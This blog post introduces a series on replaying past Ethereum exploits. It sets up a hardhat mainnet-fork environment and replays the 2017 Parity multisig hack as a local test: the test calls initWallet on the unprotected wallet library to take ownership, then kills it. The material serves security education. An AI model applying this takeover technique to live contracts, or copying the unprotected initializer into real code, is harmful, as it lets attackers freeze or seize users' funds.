

This is the start of a new series called _"Replaying Ethereum Hacks"_ where we take a closer look at past Ethereum exploits and end up re-implementing the attacks.
One might ask themselves what the benefits of doing this might be - especially as the hacks are already documented through post mortems.
This is a valid objection, but I still think it's very valuable for these reasons:

- To **learn about smart contract security**.
  - Looking at real-world exploits is the best way to learn about attack vectors **that are actually used** and therefore it's also a great way to learn how to protect against them in the future.
  - Deconstructing the attacks to be able to implement them from scratch makes sure that we really understand what's going on. In addition, I found that _practically_ solving a problem (instead of just reading about it) is the best way to make information stick.
- **Many existing post mortems are very vague** and pseudo-technical. They simply rehash the transaction call stack in a human-readable form: "Attacker takes a $X flash loan, swaps $X for $Y, deposits $Y into protocol Z, ...". (I'm not blaming the project parties for this, usually, these reports are written under time pressure because the users and investors want updates as fast as possible, but thoroughly researching the hack takes time.) Truth is, they often don't convey any _intuition_ on what the heart of the issue was and how to prevent it. This is my main motivation. There are still many hacks that I don't correctly understand even after reading the post mortems. I'll try to give the **intuition first, followed by a technical deep-dive** into the vulnerable protocol code, closing with writing code to replay the exploit on a local network.
- For **archiving** purposes. Information on hacks is usually scattered among many different blog posts and tweets, and creating a list of exploits in a more or less standard format (description, block number, exploit code) of this piece of decentralized internet history is oddly satisfying. (Might just be me though. 🙃)

I'll try to keep a balance between analyzing interesting historical hacks and fresh exploits. All future posts in this series can be found on my blog in the [replaying-eth category](/categories/replaying-eth).

For the remainder of this introductory post, let's set up our environment.
We will be using [**hardhat**](https://hardhat.org/) because it has nice features, is fast, and allows forking the Ethereum mainnet right before the hack occurred. It's easy to understand for newcomers because it's just JavaScript - or TypeScript in our case.

## Setting up the repo

I prepared a [GitHub repo here](https://github.com/MrToph/replaying-ethereum-hacks).
The interesting parts are:

- The hardhat config in `hardhat.config.ts` where we define our hardhat network:
  ```typescript
    networks: {
      hardhat: {
        accounts,
        loggingEnabled: false,
        forking: {
          url: ARCHIVE_URL, // https://eth-mainnet.alchemyapi.io/v2/SECRET`,
          blockNumber: 11800000, // we will set this in each test
        },
      },
    },
  ```
- The hacks occur in different transactions at different block heights but we can only define a single block in the config. Therefore, we create a small `forkFrom` helper function that we will call in each test with the hack-related block number:
  ```typescript
    import hre from "hardhat";

    export const forkFrom = async (blockNumber: number) => {
      if (!hre.config.networks.hardhat.forking) {
        throw new Error(
          `Forking misconfigured for "hardhat" network in hardhat.config.ts`
        );
      }

      await hre.network.provider.request({
        method: "hardhat_reset",
        params: [
          {
            forking: {
              jsonRpcUrl: hre.config.networks.hardhat.forking.url,
              blockNumber: blockNumber,
            },
          },
        ],
      });
    };
  ```
- The `/test` tests folder which we'll use to replay the exploits.

## Replaying Parity hack

Let's choose an easy hack to test our setup. What about the famous _"I accidentally killed your contract"_ parity hack?

[](https://github.com/openethereum/parity-ethereum/issues/6995)

The background of the hack is that there were several multi-signature wallet contracts that used a single shared library through `delegatecall` to implement their logic.

> it was possible to turn the Parity Wallet library contract into a regular multi-sig wallet and become an owner of it by calling the `initWallet` function. It is our current understanding that this vulnerability was triggered accidentally on 6th Nov 2017 02:33:47 PM +UTC and subsequently a user deleted the library-turned-into-wallet, wiping out the library code which in turn rendered all multi-sig contracts unusable and funds frozen since their logic (any state-modifying function) was inside the library.
>
> [Parity Blog](https://www.parity.io/security-alert-2/)

Here's how one of these _wallet_s worked, for example [this one](https://etherscan.io/address/0x1C0e9B714Da970E6466Ba8E6980C55E7636835a6#code).

```solidity
contract Wallet is WalletEvents {
  // WALLET CONSTRUCTOR
  //   calls the `initWallet` method of the Library in this context
  function Wallet(address[] _owners, uint _required, uint _daylimit) {
    // Signature of the Wallet Library's init function
    bytes4 sig = bytes4(sha3("initWallet(address[],uint256,uint256)"));
    address target = _walletLibrary;

    // Compute the size of the call data : arrays has 2
    // 32bytes for offset and length, plus 32bytes per element ;
    // plus 2 32bytes for each uint
    uint argarraysize = (2 + _owners.length);
    uint argsize = (2 + argarraysize) * 32;

    assembly {
      // Add the signature first to memory
      mstore(0x0, sig)
      // Add the call data, which is at the end of the
      // code
      codecopy(0x4,  sub(codesize, argsize), argsize)
      // Delegate call to the library
      delegatecall(sub(gas, 10000), target, 0x0, add(argsize, 0x4), 0x0, 0x0)
    }
  }

  // METHODS

  // gets called when no other function matches
  function() payable {
    // just being sent some cash?
    if (msg.value > 0)
      Deposit(msg.sender, msg.value);
    else if (msg.data.length > 0)
      _walletLibrary.delegatecall(msg.data);
  }

  // ... other functions

  // FIELDS
  address constant _walletLibrary = 0x863df6bfa4469f3ead0be8f9f2aae51c91a907b4;

  // ... other fields
}
```

We can see that the library address is hardcoded to `0x863df6bfa4469f3ead0be8f9f2aae51c91a907b4`. The wallet's constructor delegatecalls to `_walletLibrary.initWallet`. _Using_ the wallet works by calling a function on it and having the fallback function forward the data to the library using `_walletLibrary.delegatecall(msg.data);`.

The vulnerability was that one could call `initWallet` on the wallet **library** itself and become the owner (as long as it has never been called before):

```solidity
contract WalletLibrary is WalletEvents {
  modifier only_uninitialized { if (m_numOwners > 0) throw; _; }

  function initWallet(address[] _owners, uint _required, uint _daylimit) only_uninitialized {
    initDaylimit(_daylimit);
    initMultiowned(_owners, _required);
  }

  function kill(address _to) onlymanyowners(sha3(msg.data)) external {
    suicide(_to);
  }

  // ... many other functions
}
```

In order to replay the hack, we need to imitate the two transactions from the GitHub issue ([initWallet](https://etherscan.io/tx/0x05f71e1b2cb4f03e547739db15d080fd30c989eda04d37ce6264c5686e0722c9), [kill](https://etherscan.io/tx/0x47f7cff7a5e671884629c93b368cb18f58a993f4b19c2a53a8662e3f1482f690)).
Let's write a test forking mainnet at block number `4501735`, one block before the first malicious transaction.

```typescript
import { expect } from "chai";
import { Contract, ContractTransaction, Signer } from "ethers";
import hre, { ethers } from "hardhat";
import { forkFrom } from "./utils/fork";

let attacker: Signer;
let victim: Signer;
let wallet: Contract;
let walletLib: Contract;

beforeEach(async () => {
  await forkFrom(4501735);

  [attacker] = await ethers.getSigners();

  // impersonate an owner of the wallet so we can call functions on it
  const WALLET_OWNER_ADDR = `0x003aAF73BF6A398cd40F72a122203C37A4128207`;
  await hre.network.provider.request({
    method: "hardhat_impersonateAccount",
    params: [WALLET_OWNER_ADDR],
  });
  victim = ethers.provider.getSigner(WALLET_OWNER_ADDR);

  wallet = await ethers.getContractAt(
    `Wallet`,
    `0x1C0e9B714Da970E6466Ba8E6980C55E7636835a6`
  );
  walletLib = await ethers.getContractAt(
    `WalletLibrary`,
    `0x863DF6BFa4469f3ead0bE8f9F2AAE51c91A907b4`
  );
});
```

After forking, we imitate an owner of the wallet. This is important because we want to verify if the functionality of the wallet is actually broken after the hack.
First, let's check if the owner can withdraw funds **before** the hack. Withdrawals are done by calling the library's `execute` function with a recipient address and an amount:

```typescript
const withdraw = async () => {
  // make sure it's less than m_dailyLimit so we only need single owner approval
  const withdrawalAmount = ethers.utils.parseEther(`0.000001`)
  const data = walletLib.interface.encodeFunctionData(`execute`, [
    await victim.getAddress(),
    withdrawalAmount,
    [],
  ])
  // will invoke fallback function
  tx = await victim.sendTransaction({
    to: wallet.address,
    data,
  })
  return tx
}

describe('Parity Hack 2', function() {
  it('allows withdrawals before being killed', async function() {
    const balanceBefore = await ethers.provider.getBalance(wallet.address)

    tx = await withdraw()

    const balanceAfter = await ethers.provider.getBalance(wallet.address)
    expect(balanceAfter.lt(balanceBefore), 'withdrawal did not work').to.be.true
  })
})
```

Running `npx hardhat test/parity.ts` runs our test withdrawal and passes the check. As a next step, let's become the owner of the wallet **library** now, kill it and retry the withdrawal.

```typescript
it('breaks withdrawals after being killed', async function() {
  const balanceBefore = await ethers.provider.getBalance(wallet.address)

  // first call initWallet to make us the owner
  tx = await walletLib.initWallet(
    [await attacker.getAddress()],
    1,
    ethers.utils.parseEther(`1`)
  )
  // then kill it
  tx = await walletLib.kill(await attacker.getAddress())

  // withdrawal does not revert, is simply a noop now
  tx = await withdraw()

  const balanceAfter = await ethers.provider.getBalance(wallet.address)
  expect(balanceAfter.eq(balanceBefore), 'withdrawal worked but should not').to.be.true
})
```

Running the test again shows us that the withdrawal is indeed broken. We just replayed the second parity hack!
This concludes our introductory post explaining the setup.
With this out of the way, we can fully focus on the actual vulnerabilities and start looking at more interesting exploits in the next posts. 🕵️‍♂️🐛

The full code is [available on GitHub](https://github.com/MrToph/replaying-ethereum-hacks).
